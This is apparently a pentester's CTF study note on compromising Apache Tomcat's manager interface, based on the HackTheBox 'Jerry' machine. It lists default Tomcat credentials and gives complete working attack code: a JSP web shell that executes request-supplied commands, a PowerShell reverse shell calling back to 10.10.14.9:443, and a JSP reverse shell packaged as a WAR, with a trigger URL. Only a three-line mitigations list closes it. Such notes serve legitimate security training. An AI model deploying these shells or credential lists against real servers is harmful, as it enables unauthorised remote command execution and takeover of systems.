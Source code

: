
/manager/html

### default creds

admin : admin
ADMIN : ADMIN
admin : j5Brn9
admin : None
admin : tomcat
cxsdk : kdsxc
j2deployer : j2deployer
ovwebusr : OvW*busr1
QCC : QLogic66
role : changethis
role1 : role1
role1 : tomcat
root : root
tomcat : changethis
tomcat : s3cret
tomcat : tomcat
xampp : xampp

---
### file upload

a .jsp file is java code for the web, not javascript, and is run on the server side
a .war file is just a normal zip containing the .jsp, other files can be added

We can upload Web Application Resource (WAR) files

GUI Access to upload war files:
![[../../Boxes/HackTheBox/Jerry (Done) tomcat example/Images/Pasted image 20250513202248.png|1200]]

There's also api access, check it out later

---
### webshell

a war (like websh.war) file is just a normal zip containing the .jsp, like:
websh.jsp
```java
<%@page import="java.io.*, java.net.*"%>
<%
    String cmd = request.getParameter("c");
    if (cmd != null && !cmd.isEmpty()) {
        String decoded = URLDecoder.decode(cmd, "UTF-8");
        try {
            Process p = Runtime.getRuntime().exec(decoded);
            BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
            String line;
            out.println("<pre>");
            while ((line = reader.readLine()) != null) {
                out.println(line.replace("<", "&lt;").replace(">", "&gt;"));
            }
            out.println("</pre>");
        } catch (Exception e) {
            out.println("<pre>" + e.toString() + "</pre>");
        }
    }
%>

```

share a ps1 revsh like:
revsh2.ps1
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
*(make sure the ip and port are replaced with yours)*

![[../../Boxes/HackTheBox/Jerry (Done) tomcat example/Images/Pasted image 20250513231155.png]]

---

We can add pther useful files to the war file:

```sh
C:\apache-tomcat-7.0.88\webapps\websh2>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\apache-tomcat-7.0.88\webapps\websh2

05/14/2025  08:12 AM    <DIR>          .
05/14/2025  08:12 AM    <DIR>          ..
05/13/2025  11:14 PM               732 websh.jsp
05/14/2025  01:08 AM               514 websh2.ps1
               2 File(s)          1,246 bytes
               2 Dir(s)   2,399,576,064 bytes free

```

---

### revshell

revsh.jsp (zipped in revsh.war):
```java
<%@ page import="java.io.*, java.net.*" %>
<%!
class StreamConnector extends Thread {
    InputStream is; OutputStream os;
    StreamConnector(InputStream is, OutputStream os) {
        this.is = is; this.os = os;
    }
    public void run() {
        try {
            BufferedReader r = new BufferedReader(new InputStreamReader(is));
            BufferedWriter w = new BufferedWriter(new OutputStreamWriter(os));
            char[] buf = new char[8192];
            int len;
            while ((len = r.read(buf)) > 0) {
                w.write(buf, 0, len);
                w.flush();
            }
        } catch (Exception ignored) {}
    }
}
%>
<%
String ip = request.getParameter("ip");
String port = request.getParameter("port");
if (ip != null && port != null) {
    try {
        Socket s = new Socket(ip, Integer.parseInt(port));
        String os = System.getProperty("os.name").toLowerCase();
        String shell = os.contains("win") ? "cmd.exe" : "/bin/bash";
        Process p = Runtime.getRuntime().exec(shell);
        new StreamConnector(p.getInputStream(), s.getOutputStream()).start();
        new StreamConnector(s.getInputStream(), p.getOutputStream()).start();
    } catch (Exception e) {
        out.println("<pre>" + e.toString() + "</pre>");
    }
}
%>
```

http://jerry.htb:8080/revsh/revsh.jsp?ip=10.10.14.9&port=443

---

### Mitigations

- up to date version of Tomcat
- disable the host manager
- use complex credentials

